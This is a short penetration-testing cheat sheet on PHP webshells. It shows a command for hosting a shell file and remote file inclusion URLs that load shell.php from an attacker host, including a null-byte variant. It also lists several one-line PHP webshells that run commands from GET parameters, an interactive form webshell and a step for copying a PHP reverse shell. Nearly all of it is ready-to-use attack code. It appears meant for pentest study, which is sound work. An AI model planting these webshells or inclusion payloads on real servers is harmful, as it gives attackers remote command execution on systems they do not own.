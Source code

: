 ```yaml
---
sidebar_position: 9
---
```


# Webshell (PHP)

A webshell is a script that enables remote command execution on a web server. Below are common PHP webshell examples and usage tips for penetration testing.

- [Total OSCP Guide: Webshells](https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html)
- [PHP Webshell Gist (joswr1ght)](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985)

## Hosting a Webshell

To serve a local file for remote inclusion:

```bash
python -m http.server 80
```

Example vulnerable request:

```
http://10.10.10.10/index.php?page=http://192.168.0.1/shell.php
http://10.10.10.10/index.php?page=http://192.168.0.1/shell.php%00
```

## Simple PHP Webshells

```php
<?php system("whoami"); ?>
```

```php
<?php system($_GET["cmd"]);?>
```

```php
<?php if(isset($_GET["cmd"])) { system($_GET["cmd"]); } ?>
```

```php
<?php passthru($_GET["cmd"]);?>
```

```php
<?php echo shell_exec("whoami");?>
```

## Interactive Webshell Example

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

## Reverse Shell

Copy a ready-made reverse shell:

```bash
sudo cp /usr/share/webshells/php/php-reverse-shell.php .
```
